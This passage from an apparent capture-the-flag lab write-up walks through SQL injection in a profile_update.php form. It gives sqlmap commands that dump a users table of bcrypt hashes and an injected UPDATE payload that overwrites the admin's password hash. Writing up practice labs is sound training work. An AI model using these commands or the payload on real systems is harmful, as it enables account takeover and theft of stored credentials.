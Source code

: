 This error message shows that `profile_update.php` is interacting with an SQL database.

## Exploitation and user.txt
#### SQL Injection
In Burp Suite's *Repeater*, right click and *Save item* as `profile_update.burp`. Test for SQL injection with the command `sqlmap -r $PWD/profile_update.burp --level=3 --threads=10 `. Sqlmap finds sql injection in the first paramter, with `firstName=test';<SQL QUERY HERE>#...`
![sqlmap](screenshots/sqlmap.png)

Use sqlmap to dump the database with the command `sqlmap -r $PWD/profile_update.burp --level=3 --dump` It abuses blind time-based sql injection to dump the *users* table on the *app* database.
```
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
| id | role | email | company | lastName | password                                                     | username | firstName |
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
| 1  | 1    | test  | test    | test     | $2y$10$ubvjLBABd7Rw7g.tZJh8gOABFO9l5v0xDDur8FxNUZSWrVXlQOrpe | admin    | test      |
| 2  | 0    | test  | test    | test     | $2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq | aaron    | test      |
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
```
We already know aaron's password is aaron, and attempting to crack admin's password. Abuse SQL injection to change admin's password to the same password as aaron with the SQL injection payload:
```
';UPDATE users SET password='$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq' where id = 1#
```